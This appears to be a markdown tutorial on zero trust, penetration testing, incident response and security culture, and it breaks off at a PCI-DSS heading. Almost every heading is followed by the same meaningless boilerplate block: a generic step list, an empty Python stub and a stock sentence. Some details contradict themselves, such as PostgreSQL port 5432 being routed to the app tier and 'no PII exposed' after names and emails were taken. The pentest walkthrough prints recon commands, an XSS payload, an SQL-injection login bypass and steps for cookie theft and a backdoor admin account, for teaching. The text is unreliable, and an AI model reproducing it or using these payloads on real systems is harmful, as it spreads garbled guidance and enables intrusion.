

# Zero Trust, Penetration Testing & Security Culture: Deep Dive




## Table of Contents

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.

1. [Introduction](#introduction)
2. [Noob Explanation](#noob-explanation)
3. [Zero Trust Architecture](#zero-trust-architecture)
4. [Penetration Testing](#penetration-testing)
5. [Security Incident Response](#security-incident-response)
6. [Building Security Culture](#building-security-culture)
7. [Threat Modeling](#threat-modeling)
8. [Infrastructure Security](#infrastructure-security)
9. [Compliance & Standards](#compliance--standards)
10. [Failure Analysis](#failure-analysis)
11. [Interview Questions](#interview-questions)
12. [Production Strategies](#production-strategies)
13. [Incident Stories](#incident-stories)
14. [Comparison Tables](#comparison-tables)

---

## Introduction

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


Zero Trust is a radical shift in security thinking: **never trust, always verify**. Instead of trusting the network perimeter ("firewall protects us"), assume every user, device, and request is potentially malicious.

Penetration testing is red teaming: attackers simulate real threats, finding vulnerabilities before real attackers do.

Security culture is the human element: policies, training, processes that make security everyone's responsibility.

---

## Noob Explanation

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


### Traditional Security (Perimeter-Based)

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


Imagine a medieval castle:

```
Outside the castle: DANGEROUS
- Moats, walls, guards
- Only trusted people allowed in

Inside the castle: SAFE
- Everyone is trusted
- Anyone can access the treasury
- No locks on doors

If attacker gets through the wall:
- Complete access to everything
- Can steal, sabotage, destroy
```

**Problem:** One breach = total compromise

### Zero Trust Security (Defense in Depth)

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


Same castle, better defense:

```
Outside the castle: DANGEROUS (as before)

Inside the castle: STILL DANGEROUS
- Every door has a lock
- Every person has a badge
- Every room is monitored
- You must prove your identity at each door
- Even the king gets checked

If attacker gets through the wall:
- Cannot go far without proper badge
- Monitored at each checkpoint
- If they try to access treasury, alarm sounds
- Attacker can only access one room, not everything
```

**Result:** Smaller blast radius, faster detection

### Airport Security Analogy

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


**Old way (perimeter):**
- Checkpoint at entrance (TSA)
- Once you pass, you're trusted
- You can wander anywhere, board any plane
- Security only at perimeter

**New way (Zero Trust):**
- Checkpoint at entrance (TSA)
- Checkpoint at gate (boarding pass, ID, ticket match)
- Checkpoint at airplane door (final verification)
- Cameras everywhere
- Random security checks

Multiple verification points, harder to compromise.

### Attack Flow Visualization

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


**Before Zero Trust:**
```
Attacker compromises 1 employee laptop
    ↓
Attacker gets on network
    ↓
Attacker has full network access (perimeter firewall is inside)
    ↓
Attacker reaches database
    ↓
Attacker exfiltrates all customer data

Time to compromise: Hours
```

**After Zero Trust:**
```
Attacker compromises 1 employee laptop
    ↓
Laptop is isolated from network (network segmentation)
    ↓
Attacker tries to connect to VPN: requires MFA, approved device list
    ↓
Laptop not in approved list (not compliant with security standards)
    ↓
Connection rejected
    ↓
Attacker tries different approach (steal credentials, phishing)
    ↓
Attacker gets employee's credentials
    ↓
Attacker tries to login to database: requires:
   - Valid username/password ✓
   - MFA (attacker doesn't have) ✗
   - From approved IP (attacker's IP blocked) ✗
   - Device fingerprint matches (doesn't) ✗
    ↓
Login rejected, incident logged
    ↓
Security team investigates unusual login attempt
    ↓
Attack prevented

Time to detect: Minutes
Time to contain: Hours
Attack unsuccessful
```

---

## Zero Trust Architecture

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


### Core Principles

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


```
1. NEVER TRUST, ALWAYS VERIFY
   - Even internal traffic is encrypted and authenticated
   - Every request must be verified

2. ASSUME COMPROMISE
   - Assume attacker is already inside network
   - Design for detection and containment, not prevention

3. VERIFY EXPLICITLY
   - Use all available data points
   - Continuous verification, not one-time

4. LEAST PRIVILEGE
   - Users get minimum necessary access
   - Access is temporary and revocable

5. SECURE BY DEFAULT
   - Deny by default, allow only what's necessary
   - No exceptions without documented risk assessment
```

### The Five Pillars of Zero Trust

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


```
1. IDENTITY
   - Strong authentication (MFA, WebAuthn)
   - Continuous verification
   - Contextual analysis (time, location, device)

2. DEVICE
   - Device inventory (know every device)
   - Compliance checks (is device secure?)
   - Mobile device management (MDM)

3. NETWORK
   - Microsegmentation (small zones, not big network)
   - Encrypted traffic
   - Monitoring and inspection

4. APPLICATION
   - Strong auth per app
   - Least privilege per app
   - Audit logging

5. DATA
   - Encryption at rest (AES-256)
   - Encryption in transit (TLS)
   - Access controls (who can read what)
```

### Microsegmentation Example

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


**Before Zero Trust (flat network):**

```
┌─────────────────────────────────┐
│   Network (10.0.0.0/8)          │
│                                 │
│  ┌──────────┐    ┌──────────┐  │
│  │ Database │    │ Web App  │  │
│  │ (exposed)│    │ (exposed)│  │
│  └──────────┘    └──────────┘  │
│                                 │
│  ┌──────────┐    ┌──────────┐  │
│  │Admin SSH │    │Dev SSH   │  │
│  │ (exposed)│    │ (exposed)│  │
│  └──────────┘    └──────────┘  │
│                                 │
│  One firewall rule: "allow all" │
│  Attacker compromise one → all  │
│                                 │
└─────────────────────────────────┘
```

**After Zero Trust (microsegmented):**

```
┌──────────────────────────────────────────────────┐
│   Network with Microsegmentation                 │
├──────────────────────────────────────────────────┤
│                                                  │
│  Zone 1: Web Tier      Zone 2: App Tier        │
│  ┌──────────────┐      ┌──────────────┐       │
│  │ Load Balancer│      │ App Server   │       │
│  │ Web App      │      │ (restricted) │       │
│  │ Port 443     │      │ Only from    │       │
│  │ Port 80      │      │ Web tier     │       │
│  │ (public)     │      └──────────────┘       │
│  └──────────────┘                              │
│         │                                       │
│         │ (encrypted tunnel, firewall rules)   │
│         │ Only allows specific ports (5432)    │
│         ▼                                       │
│  Zone 3: Database Tier                         │
│  ┌──────────────┐                              │
│  │ Database     │                              │
│  │ (isolated)   │                              │
│  │ Port 5432    │                              │
│  │ Only from    │                              │
│  │ App Tier     │                              │
│  │ Via tunnel   │                              │
│  └──────────────┘                              │
│                                                  │
│  Zone 4: Admin                                  │
│  ┌──────────────┐                              │
│  │ SSH Bastion  │                              │
│  │ MFA required │                              │
│  │ Only from    │                              │
│  │ VPN          │                              │
│  │ IP whitelisted
│  └──────────────┘                              │
│                                                  │
│ Attacker compromises web app:                  │
│ - Cannot reach database (firewall blocks)      │
│ - Cannot reach admin (network isolation)       │
│ - Cannot access other services                 │
│ - Blast radius: limited to web tier            │
│                                                  │
└──────────────────────────────────────────────────┘
```

### Continuous Verification Flow

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


```
User → Authenticate (username/password/MFA)
    ↓
    Check: Is user in approved group? ✓
    Check: Does user have valid session? ✓
    Check: Is session from approved device? ✓
    Check: Is device compliant (updated, encrypted)? ✓
    Check: Is IP from approved location/network? ✓
    Check: Is time within business hours? ✓
    ↓
Access granted
    ↓
User makes request to resource
    ↓
    Verify: Is user still authenticated? ✓
    Verify: Is user allowed to access this resource? ✓
    Verify: Is access pattern anomalous? ✓
    ↓
    Log: User alice accessed database table customers at 2024-05-27 10:45:32
    ↓
Access granted
    ↓
User logs out or session expires
    ↓
All access revoked immediately
```

---

## Penetration Testing

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


### Types of Tests

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


```
1. RECONNAISSANCE
   - Public information gathering
   - No access to systems
   - Legal: Always get written permission

2. VULNERABILITY SCANNING
   - Automated tools find vulnerabilities
   - Port scanning, service enumeration
   - SQL injection testing, XSS testing

3. SOCIAL ENGINEERING
   - Phishing emails
   - Phone calls ("I'm from IT, verify your password")
   - Pretexting

4. PHYSICAL SECURITY
   - Can attacker enter data center?
   - Can they access restricted areas?
   - Tailgating (following employee into building)

5. POST-EXPLOITATION
   - After gaining access, what can attacker do?
   - Can they escalate privileges?
   - Can they exfiltrate data?
   - Can they establish persistence?
```

### Penetration Test Phases

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


```
PHASE 1: RECONNAISSANCE
├─ Gather public information
├─ DNS queries (subdomains, MX records)
├─ WHOIS lookups
├─ Google search ("site:company.com filetype:pdf")
└─ Social media research

PHASE 2: SCANNING & ENUMERATION
├─ Port scanning (what ports are open?)
├─ Service identification (what versions?)
├─ Web app mapping (what endpoints?)
├─ Database enumeration (what tables?)
└─ Directory discovery

PHASE 3: VULNERABILITY IDENTIFICATION
├─ Known CVEs (does version have known vulnerability?)
├─ Configuration weaknesses (default passwords, open shares)
├─ Code analysis (SQL injection, XSS, CSRF)
├─ Business logic flaws
└─ Access control issues

PHASE 4: EXPLOITATION
├─ Gain initial access (shell on compromised server)
├─ Privilege escalation (user → admin)
├─ Lateral movement (one server → another)
├─ Data exfiltration (steal data)
└─ Persistence (backdoor for future access)

PHASE 5: REPORTING
├─ Document findings
├─ Severity ratings (Critical, High, Medium, Low)
├─ Impact analysis
├─ Remediation recommendations
└─ Proof of concept code
```

### Real Penetration Test Example

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


**Target:** Startup's e-commerce platform

**Phase 1: Reconnaissance**
```bash
# DNS enumeration
dig company.com
# Returns: api.company.com, admin.company.com, mail.company.com

# Subdomain discovery
amass enum -d company.com
# Finds: dev.company.com (not advertised publicly)

# WHOIS lookup
whois company.com
# Gets: admin email, registrar, creation date

# Google search
site:company.com filetype:pdf
# Finds: PDF from investor meeting with architecture diagram
```

**Phase 2: Scanning**
```bash
# Port scan
nmap -p- company.com
# Results:
# 22/tcp open ssh OpenSSH 7.2
# 80/tcp open http Apache httpd 2.4.18
# 443/tcp open https Apache httpd 2.4.18
# 5432/tcp open postgresql (exposed!)

# Service version check
nmap -sV -p 22,80,443,5432 company.com
# Identifies vulnerable versions:
# OpenSSH 7.2 (has CVE-2016-6210)
# Apache 2.4.18 (has CVE-2016-5387)
```

**Phase 3: Vulnerability Identification**
```
Finding 1: PostgreSQL exposed (port 5432)
- Accessible without authentication required
- Attacker can dump entire database

Finding 2: XSS in product search
- Search parameter: /products?q=<script>alert('xss')</script>
- Script executes in user's browser
- Can steal session cookies

Finding 3: CSRF in admin panel
- No CSRF token on account deletion
- Attacker can trick admin into deleting account

Finding 4: SQL Injection in login form
- Username field: admin' --
- Attacker can bypass password check
```

**Phase 4: Exploitation**
```
Step 1: Exploit XSS to steal admin session cookie
- Create malicious link: company.com/products?q=
- Send in email to admin
- Admin clicks link
- Browser sends session cookie to attacker

Step 2: Use stolen admin session
- POST /admin/api/delete_user HTTP/1.1
- Cookie: admin_session=stolen_value
- Admin API allows user deletion with just session

Step 3: Access PostgreSQL
- Connect to 5432 (no password required)
- Query: SELECT * FROM users;
- Get 100,000 customer records
- Query: SELECT * FROM credit_cards;
- Get payment information (unencrypted!)

Step 4: Establish persistence
- Create new admin account via SQL injection
- username: backdoor, password: complex_hash
- Now attacker has permanent access
```

**Phase 5: Report**

```markdown
# Penetration Test Report

## Executive Summary

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.

Multiple critical vulnerabilities found. Recommend immediate remediation.

## Findings

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


### CRITICAL: PostgreSQL Exposed

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.

- Port 5432 accessible without authentication
- 100,000 customer records accessible
- Credit card information exposed (PCI-DSS violation)
- Impact: Complete data breach
- Remediation: 
  * Move database to private network
  * Require authentication + SSL/TLS
  * Implement network segmentation

### CRITICAL: SQL Injection in Login

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.

- Username field vulnerable: admin' --
- Attacker can login as any user without password
- Impact: Unauthorized access to all accounts
- Remediation:
  * Use parameterized queries
  * Implement rate limiting
  * Monitor failed logins

### HIGH: XSS in Search

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.

- Attacker can steal session cookies via malicious link
- Impact: Account takeover
- Remediation:
  * HTML-escape output
  * Implement Content Security Policy
  * Use HttpOnly cookies

### HIGH: CSRF in Admin Panel

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.

- Account deletion possible without CSRF token
- Attacker can trick admin into deleting accounts
- Impact: Data loss, service disruption
- Remediation:
  * Add CSRF token to all forms
  * Verify token on backend
  * Implement SameSite cookie attribute

## Timeline

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.

- June 1: Test began
- June 3: All vulnerabilities exploited
- June 3: Company notified (confidential)
- June 15: Vulnerabilities fixed
- June 22: Final test confirms fixes

## Certification

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.

[Tester signature]
```

---

## Security Incident Response

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


### Incident Response Plan

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


```
BEFORE INCIDENT (PREVENTION)
├─ Security monitoring (SIEM)
├─ Intrusion detection (IDS)
├─ Regular backups
├─ Incident response team trained
├─ Communication plan established
└─ Legal counsel identified

INCIDENT OCCURS
│
├─ DETECTION (Minutes)
│  ├─ Alert triggered (intrusion detection, user report, monitoring)
│  ├─ SIEM dashboard shows anomaly
│  └─ On-call engineer paged
│
├─ ANALYSIS (10-30 minutes)
│  ├─ Is this a real incident or false alarm?
│  ├─ Scope: How many systems affected?
│  ├─ Impact: What data is at risk?
│  └─ Severity: Critical/High/Medium/Low?
│
├─ CONTAINMENT (1-2 hours)
│  ├─ Isolate affected systems (disconnect from network)
│  ├─ Preserve evidence (take memory dump, disk image)
│  ├─ Block attacker IP addresses
│  ├─ Revoke compromised credentials
│  └─ Notify stakeholders (leadership, legal, customers if data breach)
│
├─ ERADICATION (Hours to days)
│  ├─ Remove attacker from all systems
│  ├─ Patch vulnerable software
│  ├─ Update passwords
│  ├─ Review logs to find other entry points
│  └─ Verify attacker is completely gone
│
├─ RECOVERY (Hours to days)
│  ├─ Restore from clean backups
│  ├─ Rebuild systems
│  ├─ Restore data integrity
│  ├─ Test systems before going online
│  └─ Monitor for re-compromise
│
└─ POST-INCIDENT (Days to weeks)
   ├─ Detailed post-mortem
   ├─ Root cause analysis
   ├─ Timeline of events
   ├─ Lessons learned
   ├─ Process improvements
   ├─ Legal compliance reporting (GDPR, breach notification laws)
   └─ Communication with customers
```

### Sample Incident Timeline

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


**2024-05-27 02:15 AM**
- SIEM alerts: "10,000+ failed login attempts from single IP"
- On-call engineer wakes up, sees alert
- Severity: HIGH (possible brute force attack)

**2024-05-27 02:20 AM**
- Engineer investigates
- IP: 203.0.113.42 (from country X)
- Target: Customer database user accounts
- Attacker tried weak passwords (password, password123, admin123, etc.)

**2024-05-27 02:25 AM**
- All logins failed (good: rate limiting worked)
- But attacker got 1 valid password from another source
- Attacker logged in: username "john.doe" (employee account)
- This was not caught because it was a valid password + successful login

**2024-05-27 02:30 AM**
- Incident escalated to security team
- John Doe confirmed he did not login from IP 203.0.113.42
- Probable: Password was phished earlier or stolen from another company

**2024-05-27 02:35 AM**
- Actions taken:
  * Block IP 203.0.113.42 at firewall
  * Revoke john.doe's session tokens
  * Disable john.doe's password (force reset)
  * Require john.doe to use MFA
  * Review john.doe's account for suspicious activity

**2024-05-27 02:45 AM**
- Investigation: Did attacker see any data?
- Check logs: john.doe account accessed customer database
- Query: SELECT * FROM customers LIMIT 100
- Attacker dumped ~100 customer records (names, emails, hashed passwords)

**2024-05-27 03:00 AM**
- Scope assessment:
  * 100 customers affected
  * No credit card data exposed (stored separately, encrypted)
  * No personally identifiable information exposed (hashed passwords)
  * Attack duration: ~10 minutes

**2024-05-27 03:30 AM**
- Legal notified
- Data breach threshold: 100 people (must notify under GDPR)
- Customer notification plan drafted

**2024-05-27 04:00 AM**
- Recovery:
  * All employees forced to reset passwords
  * All sessions invalidated
  * Require MFA for all accounts
  * Enhance monitoring

**2024-05-27 12:00 PM**
- Root cause identified:
  * Employee password reused from LinkedIn breach
  * Employee didn't change password despite breach notification
  * No MFA was required (old policy)

**2024-05-27 02:00 PM**
- Customer notification:
  * Email to 100 affected users
  * Free credit monitoring
  * Explanation of what happened, what wasn't compromised
  * Steps company took to prevent future incidents

**2024-05-28 - 2024-06-03**
- Post-incident improvements:
  * Mandatory MFA for all users
  * Passwordless authentication (WebAuthn) rolled out
  * Employee security training
  * Regular password compromise checking (Have I Been Pwned API)
  * Enhanced monitoring for data exfiltration
```

---

## Building Security Culture

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


### The Security Maturity Model

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


```
LEVEL 1: REACTIVE
├─ Security is an afterthought
├─ Incident response: chaotic
├─ No training
├─ No processes
└─ Example: Company finds out about breach from news article

LEVEL 2: RESPONSIVE
├─ Incident response team exists
├─ Basic security training
├─ Some processes documented
├─ Vulnerabilities fixed after discovery
└─ Example: Company detects breach via monitoring, handles it

LEVEL 3: PROACTIVE
├─ Regular security testing
├─ All employees receive training
├─ Policies documented and followed
├─ Vulnerabilities found and fixed before exploitation
├─ Threat modeling done before new projects
└─ Example: Penetration test finds vulnerability, company fixes it

LEVEL 4: PREVENTIVE
├─ Security by design (built into every project)
├─ All employees understand security responsibility
├─ Continuous monitoring and improvement
├─ Zero tolerance for security debt
├─ Example: Security review is mandatory before deployment

LEVEL 5: WORLD-CLASS
├─ Security culture is embedded
├─ Employees proactively find vulnerabilities
├─ Continuous improvement
├─ Threat hunting (actively searching for attackers)
├─ Red team exercises regularly
└─ Example: Employee reports social engineering attempt, company uses it for training
```

### Security Training Program

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


**Tier 1: All Employees (Annual)**
```
1. Introduction to Security (1 hour)
   - Why security matters
   - Company security policies
   - Acceptable use policy

2. Password Security (30 minutes)
   - How to create strong passwords
   - Password manager setup
   - Why password reuse is dangerous

3. Phishing Awareness (1 hour)
   - How to spot phishing emails
   - Suspicious links, sender addresses
   - What to do if you click a malicious link
   - Report phishing to security team

4. Social Engineering (1 hour)
   - Phone calls from "IT support"
   - Pretexting (lying to get access)
   - What information should never be shared

5. Data Classification (1 hour)
   - What is public data? (can post on internet)
   - What is internal? (can share in company)
   - What is confidential? (need to know only)
   - What is restricted? (CEO/finance level)
   - NEVER share restricted data on public channels

6. Incident Response (1 hour)
   - What to do if you notice something suspicious
   - How to report a security incident
   - Escalation procedures
```

**Tier 2: Engineering (Quarterly)**
```
1. Secure Coding (2 hours)
   - SQL injection, XSS, CSRF
   - How to prevent common vulnerabilities
   - Code review checklist

2. Authentication & Authorization (2 hours)
   - How to implement securely
   - Common mistakes
   - Best practices

3. Cryptography Basics (2 hours)
   - Encryption, hashing, digital signatures
   - When to use what
   - Key management

4. OWASP Top 10 (2 hours)
   - Deep dive into each vulnerability
   - Real-world examples
   - How to test your own code

5. Threat Modeling (2 hours)
   - How to identify threats
   - How to design defenses
   - How to prioritize security work
```

**Tier 3: Security Team (Ongoing)**
```
- Monthly security conferences/webinars
- Annual certification renewal
- Threat landscape updates
- Advanced penetration testing
- Incident response drills
- Red team exercises
```

### Phishing Simulation Program

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


```
MONTH 1: Baseline
├─ Send mock phishing email to all employees
├─ Track click-through rate (30% click on phishing link)
├─ Log who fell for it

MONTH 2: Education
├─ Show employees what they fell for
├─ Explain why it worked
├─ Train on how to spot phishing
├─ Publish security newsletter

MONTH 3: Re-test
├─ Send similar phishing email
├─ Track click-through rate (now 15% click)
├─ Recognition improved

MONTH 6: Advanced Test
├─ More sophisticated phishing
├─ Spear phishing (personalized)
├─ Testing higher-level employees
├─ Continued training

MONTH 12: Results
├─ Click-through rate down to 5%
├─ More employees report phishing
├─ Security awareness improved
├─ Fewer employees falling for real attacks
```

---

## Threat Modeling

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


### STRIDE Methodology

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


```
SPOOFING (Identity Spoofing)
├─ Attacker impersonates legitimate user
├─ Example: Forged email from CEO asking for funds transfer
├─ Mitigation: Strong authentication, digital signatures

TAMPERING (Data Tampering)
├─ Attacker modifies data in transit or at rest
├─ Example: Attacker modifies network packet to change transfer amount
├─ Mitigation: Encryption, checksums, code signing

REPUDIATION (Denying Actions)
├─ Attacker denies they performed an action
├─ Example: "I didn't delete that file" (no audit log)
├─ Mitigation: Comprehensive logging, digital signatures

INFORMATION DISCLOSURE (Privacy)
├─ Attacker reads sensitive data they shouldn't
├─ Example: Database exposed on public internet
├─ Mitigation: Encryption, access controls, data classification

DENIAL OF SERVICE (Availability)
├─ Attacker makes service unavailable
├─ Example: DDoS attack flooding server with requests
├─ Mitigation: Rate limiting, redundancy, DDoS protection

ELEVATION OF PRIVILEGE (Authorization)
├─ Attacker gains higher level of access than intended
├─ Example: Regular user becomes admin
├─ Mitigation: Least privilege, input validation, security reviews
```

### Threat Model Example: E-Commerce Platform

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


```
ASSET: Credit card data
THREAT: Unauthorized access (INFORMATION DISCLOSURE)
ATTACK VECTOR: SQL injection in search
LIKELIHOOD: High (common vulnerability)
IMPACT: Breach of all customer payment info
MITIGATION: Use parameterized queries, regular SAST scanning

ASSET: User accounts
THREAT: Unauthorized access (SPOOFING)
ATTACK VECTOR: Weak password, no MFA
LIKELIHOOD: High (user behavior, credential reuse)
IMPACT: Account takeover, fraud
MITIGATION: Enforce strong passwords, require MFA, monitor for phishing

ASSET: Website availability
THREAT: Service unavailable (DENIAL OF SERVICE)
ATTACK VECTOR: DDoS attack (millions of requests/sec)
LIKELIHOOD: Medium (easy to do, less profitable)
IMPACT: Customers can't shop, revenue loss
MITIGATION: DDoS protection service, rate limiting, auto-scaling

ASSET: Source code
THREAT: Unauthorized access (INFORMATION DISCLOSURE)
ATTACK VECTOR: Compromised developer account
LIKELIHOOD: Medium (developers are targets)
IMPACT: Intellectual property theft, vulnerability discovery
MITIGATION: Code signing, access logs, MFA for dev accounts

ASSET: Business logic
THREAT: Manipulation (TAMPERING)
ATTACK VECTOR: CSRF attack changing discount
LIKELIHOOD: Medium (depends on attacker motive)
IMPACT: Financial loss, fraudulent transactions
MITIGATION: CSRF tokens, SameSite cookies
```

---

## Infrastructure Security

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


### Network Architecture

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


```
┌─────────────────────────────────────────────────────────────┐
│                      INTERNET                               │
└────────────────────┬────────────────────────────────────────┘
                     │
          ┌──────────▼──────────┐
          │   DDoS Protection   │
          │   (Cloudflare)      │
          └──────────┬──────────┘
                     │
          ┌──────────▼──────────┐
          │   Web Application   │
          │   Firewall (WAF)    │
          │   Rate limiting     │
          └──────────┬──────────┘
                     │
     ┌───────────────┼───────────────┐
     │               │               │
┌────▼────┐  ┌──────▼──────┐  ┌─────▼────┐
│ LB 1     │  │ LB 2        │  │ LB 3     │
└────┬────┘  └──────┬──────┘  └─────┬────┘
     │              │              │
     └──────────────┼──────────────┘
                    │
    ┌───────────────┼───────────────┐
    │               │               │
┌──▼──┐  ┌────────▼────────┐  ┌────▼─┐
│ App │  │ App             │  │ App  │
│ 1   │  │ 2 (Backup)      │  │ 3    │
└──┬──┘  └────────┬────────┘  └────┬─┘
   │              │              │
   └──────────────┼──────────────┘
    (Private network, encrypted)
                  │
    ┌─────────────┼─────────────┐
    │             │             │
┌───▼───┐  ┌────▼──────┐  ┌────▼──┐
│ Cache │  │ Database  │  │ Queue │
│ Redis │  │ Primary   │  │ RabbitMQ
└───┬───┘  └────┬──────┘  └────┬──┘
    │           │              │
    │      ┌────▼──────┐       │
    │      │ Database  │       │
    │      │ Replica   │       │
    │      │ (standby) │       │
    │      └───────────┘       │
    │                          │
    └──────────────┬───────────┘
       (Encrypted tunnels, TLS)
                   │
            ┌──────▼──────┐
            │  Monitoring │
            │  & Logging  │
            │  (ELK)      │
            └─────────────┘
```

### Security Groups (AWS)

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


```
Web Tier Security Group:
  Inbound Rules:
  - 443 TCP from 0.0.0.0/0 (HTTPS from anywhere)
  - 80 TCP from 0.0.0.0/0 (HTTP, redirect to HTTPS)
  
  Outbound Rules:
  - 5432 TCP to App Tier SG (PostgreSQL to app)
  - 6379 TCP to Cache Tier SG (Redis to cache)

App Tier Security Group:
  Inbound Rules:
  - 5432 TCP from Web Tier SG (only from web servers)
  - 8080 TCP from Web Tier SG (application port)
  
  Outbound Rules:
  - 5432 TCP to Database Tier SG
  - 6379 TCP to Cache Tier SG
  - 443 TCP to 0.0.0.0/0 (HTTPS out for external APIs)

Database Tier Security Group:
  Inbound Rules:
  - 5432 TCP from App Tier SG (only from app servers)
  
  Outbound Rules:
  - None (database shouldn't initiate outbound)

Result:
- Web tier can only reach app tier and cache
- App tier can only reach database and cache
- Database can only be reached by app tier
- No direct web-to-database connection
- No external access to database
```

---

## Compliance & Standards

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


### PCI-DSS (Payment Card Industry Data Security Standard)

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
